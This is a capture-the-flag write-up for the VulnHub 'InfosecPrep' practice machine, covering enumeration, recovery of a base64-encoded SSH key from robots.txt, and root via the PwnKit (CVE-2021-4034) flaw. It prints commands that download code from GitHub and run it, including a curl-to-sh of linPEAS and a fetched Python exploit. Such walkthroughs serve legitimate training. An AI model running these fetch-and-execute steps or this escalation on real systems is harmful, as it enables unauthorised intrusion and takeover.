








# InfosecPrep

## Introduction

This <a href="https://www.vulnhub.com/entry/infosec-prep-oscp,508/">box</a> is meant to be an introduction to pentesting, and is designed to get players familiar with privilege escalation on outdated linux systems.

## Informations

### Key Processes
The machine is hosting a wordpress website

and has 3 open ports :



## Writeup

### Enumeration

#### nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.84.11
```
<br>
Browsing to port 80 takes us to the wordpress website's homepage, which has a very important information which is the username that we're going to use later. <br>

#### Getting into the machine
I tried brute forcing directories to find files or directories that could hold some pieces of information: <br>
```
gobuster -w ./wordslist2.txt -u 192.168.84.11
```
<br>
After checking those files, robots.txt had the clue we were looking for : <br>
<br>
<br>
At first glance, it looked like an ssh private key, so I tried to decipher the code using <a href="https://gchq.github.io/CyberChef/">Cyberchef</a> And found that it was an ssh private key base64 encrypted. <br>
```
base64 key -d > private.txt
```
After finding the private key it was time to access the machine using the username that was given to us: 
```
ssh -i private.txt oscp@192.168.84.11
```
And we're finally in 
<br>
It was time then to run <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPEAS</a> and check for any vulnabilities that could give us root access to the machine.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
The system seemed to be full of vulnerabilities that could be exploited to gain control of the machine, one of them was the <a href="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034">polkit vulnerability </a>(CVE-2021-4034).

<br>
Exploits written in C couldn't work since there were not any C compilers intalled on the machine, so I either had to use the binaries or get an exploit written in a language that can be compiled/interpreted on the machine and in this case python.<br>
Exploit: https://github.com/joeammond/CVE-2021-4034
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```
And voila! We've finally gained control of root and can get the flag from /root

